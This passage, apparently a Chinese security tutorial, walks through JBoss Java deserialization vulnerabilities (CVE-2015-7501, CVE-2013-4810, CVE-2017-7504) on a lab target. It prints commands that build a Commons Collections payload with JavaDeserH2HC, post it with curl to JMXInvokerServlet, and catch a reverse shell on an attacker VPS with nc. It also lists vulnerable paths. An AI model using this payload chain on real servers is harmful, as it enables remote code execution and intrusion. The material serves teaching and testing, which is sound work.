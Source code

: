 我们先启动靶机环境，访问：http://yourip:8080/

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAeLkAOpClBP4m1AY226iauhKKiaAzFOZJYtBwNWqxhplViaicicHuicsrqXZAe3ThXDaUTYkY2r1fheyBw/640?wx_fmt=png)

下面使用 JavaDeserH2HC 生成反弹 shell 的 payload

```
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java
 java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 公网vps的ip:端口号
 curl http://目标IP:8080/invoker/JMXInvokerServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser
```

进行文件编译  
生成载荷的序列化文件 xx.ser(反弹 shell 到我们的 vps)  
利用 curl 提交我们的 ser 文件

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAeLkAOpClBP4m1AY226iauhhlYmV8N9fPTJbXSibosFkEl6ianIsw7pOVEkJva3Mveibc2eJ55F5C94g/640?wx_fmt=png)

vps 使用 nc 监听端口  
成功反弹

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAeLkAOpClBP4m1AY226iauhibmIrE1icuQiabGCmicVCvR8lQ7zbPibvd5zpTS7R5JiavzRut3TIvXCnFeg/640?wx_fmt=png)

JBoss EJBInvokerServlet CVE-2013-4810 反序列化漏洞

```
此漏洞和CVE-2015-7501漏洞原理相同，两者的区别就在于两个漏洞选择的进行其中JMXInvokerServlet和EJBInvokerServlet利用的是org.jboss.invocation.MarshalledValue进行的反序列化操作，而web-console/Invoker利用的是org.jboss.console.remote.RemoteMBeanInvocation进行反序列化并上传构造的文件。
```

影响版本  
实际上主要集中在 jboss 6.x 版本上:

```
Apache Group Commons Collections 4.0 
 Apache Group Commons Collections 3.2.1 
 Apache Group Commons Collections
```

漏洞利用  
跟 CVE-2015-7501 利⽤⽅法⼀样，只是路径不⼀样，这个漏洞利⽤路径是 /invoker/EJBInvokerServlet

JBOSSMQ JMS CVE-2017-7504 集群反序列化漏洞 4.X

漏洞描述  
JBoss AS 4.x 及之前版本中，JbossMQ 实现过程的 JMS over HTTP Invocation Layer 的 HTTPServerILServlet.java ⽂件存在反序列化漏洞，远程攻击者可借助特制的序列化数据利⽤该漏洞执⾏任意代码。

影响版本  
JBoss AS 4.x 及之前版本

漏洞利用  
1、首先验证目标 jboss 是否存在此漏洞, 直接访问  
/jbossmq-httpil/HTTPServerILServlet 路径下。若访问 200，则可能存在漏洞。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAeLkAOpClBP4m1AY226iauhgibibHuUGAX8AC7YrcACbibBWnQB1o9YSbUiaXKg6n1EIKiauXhkTZp0fHw/640?wx_fmt=png)

